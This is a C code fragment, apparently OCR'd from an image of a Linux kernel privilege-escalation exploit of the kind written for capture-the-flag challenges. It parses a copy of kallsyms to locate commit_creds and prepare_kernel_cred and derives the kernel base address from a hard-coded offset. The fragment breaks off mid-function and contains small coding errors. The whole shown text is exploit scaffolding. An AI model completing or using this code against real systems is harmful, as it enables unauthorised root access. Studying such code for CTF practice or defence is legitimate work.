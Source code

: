 ```C



size_t commit_creds = 0, prepare_kernel_cred = 0;

size_t raw_vmlinux_base = 0xffffffff81000000;

size_t vmlinux_base = 0;

size_t find_symbols()

{

	FILE* kallsyms_fd = fopen("/tmp/kallsyms", "r");

	/* FILE* kallsyms_fd = fopen("./test_kallsyms", "r"); */



	if(kallsyms_fd < 0)

	{

		puts("[*]open kallsyms error!");

		exit(0);

	}



	char buf[0x30] = {0};

	while(fgets(buf, 0x30, kallsyms_fd))

	{

		if(commit_creds & prepare_kernel_cred)

			return 0;



		if(strstr(buf, "commit_creds") && !commit_creds)

		{

			/* puts(buf); */

			char hex[20] = {0};

			strncpy(hex, buf, 16);

			/* printf("hex: %s\n", hex); */

			sscanf(hex, "%llx", &commit_creds);

			printf("commit_creds addr: %p\n", commit_creds);

			vmlinux_base = commit_creds - 0x9c8e0;

			printf("vmlinux_base addr: %p\n", vmlinux_base);

```